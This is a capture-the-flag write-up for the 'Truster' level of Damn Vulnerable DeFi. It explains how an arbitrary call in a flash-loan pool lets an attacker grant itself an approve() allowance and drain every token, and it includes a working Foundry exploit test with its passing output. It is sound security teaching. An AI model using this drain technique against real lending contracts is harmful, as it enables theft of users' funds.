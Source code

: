 #	Damn Vulnerable DeFi (Foundry version)
- [Scope](#scope)
- [Plan](#plan)
- [Solution](#solution)
  - [Proof of Concept](#proof-of-concept)

##	Challenge #3 - Truster - Description

More and more lending pools are offering flash loans. In this case, a new pool has launched that is offering flash loans of DVT tokens for free.

Currently the pool has 1 million DVT tokens in balance. And you have nothing.

But don't worry, you might be able to take them all from the pool. In a single transaction.

##  Scope

| File Name                                                                | SHA-1 Hash                               |
| ------------------------------------------------------------------------ | ---------------------------------------- |
| damn-vulnerable-defi-foundry/src/Contracts/truster/TrusterLenderPool.sol | 00b60fc214bc4b7130f01fda7d8386d12a78f5f0 |

##  Plan

The description and the name of the challenge are pretty self-explanatory. We have only one file with one function [flashLoan](https://github.com/nicolasgarcia214/damn-vulnerable-defi-foundry/blob/e9c6bc3962dd14f90e94542711ed46f5bd8c88a4/src/Contracts/truster/TrusterLenderPool.sol#L24) and with trusting issues.

## Solution

<details>
    <!-- <summary>Description</summary> -->

With the help of [Surya](https://github.com/ConsenSys/surya) we have the call graph![call_graph](./challenge_3_truster_call_graph.png).

Following [functionCall](https://github.com/nicolasgarcia214/damn-vulnerable-defi-foundry/blob/e9c6bc3962dd14f90e94542711ed46f5bd8c88a4/src/Contracts/truster/TrusterLenderPool.sol#L34) we can read that `functionCall` is used to perform a Solidity function call using a low level `call` and in the end is calling:
```solidity
(bool success, bytes memory returndata) = target.call{value: value}(data);
```
This means that we have an arbitrary call. We are going to take advantage of [approve](https://github.com/ethereum/EIPs/issues/20#issuecomment-263524729) and drain the pool.

</details>

<details>
    <summary>damn-vulnerable-defi-foundry/test/Levels/truster/Truster.t.sol</summary>

  ```solidity
  // SPDX-License-Identifier: MIT
  pragma solidity >=0.8.0;

  import {Utilities} from "../../utils/Utilities.sol";
  import "forge-std/Test.sol";

  import {DamnValuableToken} from "../../../src/Contracts/DamnValuableToken.sol";
  import {TrusterLenderPool} from "../../../src/Contracts/truster/TrusterLenderPool.sol";

  contract Truster is Test {
      uint256 internal constant TOKENS_IN_POOL = 1_000_000e18;

      Utilities internal utils;
      TrusterLenderPool internal trusterLenderPool;
      DamnValuableToken internal dvt;
      address payable internal attacker;

      function setUp() public {
          /** SETUP SCENARIO - NO NEED TO CHANGE ANYTHING HERE */
          utils = new Utilities();
          address payable[] memory users = utils.createUsers(1);
          attacker = users[0];
          vm.label(attacker, "Attacker");

          dvt = new DamnValuableToken();
          vm.label(address(dvt), "DVT");

          trusterLenderPool = new TrusterLenderPool(address(dvt));
          vm.label(address(trusterLenderPool), "Truster Lender Pool");

          dvt.transfer(address(trusterLenderPool), TOKENS_IN_POOL);

          assertEq(dvt.balanceOf(address(trusterLenderPool)), TOKENS_IN_POOL);

          console.log(unicode"🧨 PREPARED TO BREAK THINGS 🧨");
      }

      function testExploit() public {
          /** EXPLOIT START **/
          vm.startPrank(attacker);
          uint256 trusterLenderPoolBalance = dvt.balanceOf(
              address(trusterLenderPool)
          );
          bytes memory payload = abi.encodeWithSignature(
              "approve(address,uint256)",
              attacker,
              trusterLenderPoolBalance
          );
          trusterLenderPool.flashLoan(0, attacker, address(dvt), payload);
          dvt.transferFrom(
              address(trusterLenderPool),
              attacker,
              trusterLenderPoolBalance
          );
          vm.stopPrank();
          /** EXPLOIT END **/
          validation();
      }

      function validation() internal {
          // Attacker has taken all tokens from the pool
          assertEq(dvt.balanceOf(address(trusterLenderPool)), 0);
          assertEq(dvt.balanceOf(address(attacker)), TOKENS_IN_POOL);
      }
  }
  ```

</details>

### Proof of Concept

```
./run.sh 3
[⠃] Compiling...
[⠃] Compiling 1 files with 0.8.12
[⠒] Solc 0.8.12 finished in 1.91s
Compiler run successful

Running 1 test for test/Levels/truster/Truster.t.sol:Truster
[PASS] testExploit() (gas: 68227)
Logs:
  🧨 PREPARED TO BREAK THINGS 🧨

Test result: ok. 1 passed; 0 failed; finished in 2.68ms
```